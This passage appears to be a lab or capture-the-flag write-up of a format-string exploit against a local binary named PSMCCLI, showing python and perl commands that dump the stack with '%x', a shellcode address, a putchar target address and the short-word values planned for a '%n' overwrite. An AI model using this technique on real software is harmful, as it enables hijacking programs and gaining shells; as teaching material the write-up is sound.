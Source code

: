 
our goal now is to put the address from our SPAWN code `0xbffffe95` into the putchar `0x804a01c`

Checking to see if memory aligns correctly:

    /usr/local/bin/PSMCCLI AAAABBBB$(python -c "print '%08x.'*200") 

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553880262094_image.png)


*the 4 bytes of “A”s and “B”s are within our memory address where we will overwrite.*

Adding padding, with the stack not aligning quite right I had to add x2 "C”s for everything to sit correctly:

    /usr/local/bin/PSMCCLI AAAABBBBCC$(python -c "print '%08x.'*200")

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553880569576_image.png)



`0xbffffe95` = shell code location

    value to be written to lower short word: 0xfe95 = 65173
    value to be written to upper short word: 0xbfff = 49151


## Boy’s become Men

And it was at this point things quickly came off the rails. Basically finding the correct padding required for the shell code became an ever increasing problem. 3 days later a solution is found.

Enumerating the stack, from the above python script I quickly ran into issues as I was adding an extra 2 bytes with `%08x` along with some mind bending issues revolving using python to create the stack.

switching to perl and verifying with python things began to align.

On to the stack, and comparing them

perl:

     /usr/local/bin/PSMCCLI AAAABBBBCCC$(perl -e 'print "%x." x 137')

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553983645689_image.png)


python:

    /usr/local/bin/PSMCCLI AAAABBBBCCC$(python -c "print '%x.'*137")

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553983747757_image.png)


playing with both the padding of ‘C’s and narrowing down where they were located in this sequence began and repeated until I was able to align the A’s (41) and B’s (42). My combination that worked is as seen above.

next, we need to verify this location of our A’s and B’s due to the nature of this string exploit we can print off the stack with `%x` and eventually write to the stack with `%n`
